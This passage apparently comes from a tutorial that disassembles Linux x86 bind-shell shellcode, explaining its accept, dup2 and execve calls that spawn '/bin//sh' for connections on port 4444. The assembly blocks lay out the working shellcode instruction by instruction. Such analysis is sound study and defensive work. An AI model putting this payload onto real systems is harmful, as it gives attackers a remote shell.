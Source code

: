 The listen(2) prototype is:
{%highlight c%}
#include <sys/types.h>          /* See NOTES */
#include <sys/socket.h>

int listen(int sockfd, int backlog);
{%endhighlight%}

### The fourth syscall

The fourth system call is just 3 lines of assembler.

{%highlight asm%}
0000002B  43                inc ebx
0000002C  B066              mov al,0x66
0000002E  CD80              int 0x80
{%endhighlight%}

We increment EBX that turns 5 and we invoke socketcall() again. This translates
into calling accept() on the given socket descriptor.

### The fifth syscall

After calling accept(), it has been called the dup2() system call since in EAX
the value of 0x3f it has been stored.

{%highlight asm%}
00000030  93                xchg eax,ebx
00000031  59                pop ecx
00000032  6A3F              push byte +0x3f
00000034  58                pop eax
00000035  CD80              int 0x80
00000037  49                dec ecx
00000038  79F8              jns 0x32
{%endhighlight%}

The call is in a loop because we want to duplicate standard input, output and
error that are mapped as file descriptors 0, 1 and 2.

### The last call

The last call is the execve() that it will serve the incoming connection to port 4444.

{%highlight asm%}
0000003A  682F2F7368        push dword 0x68732f2f
0000003F  682F62696E        push dword 0x6e69622f
00000044  89E3              mov ebx,esp
00000046  50                push eax
00000047  53                push ebx
00000048  89E1              mov ecx,esp
0000004A  B00B              mov al,0xb
0000004C  CD80              int 0x80
{%endhighlight%}

First of all "/bin//sh" is stored into stack with the two push instructions.
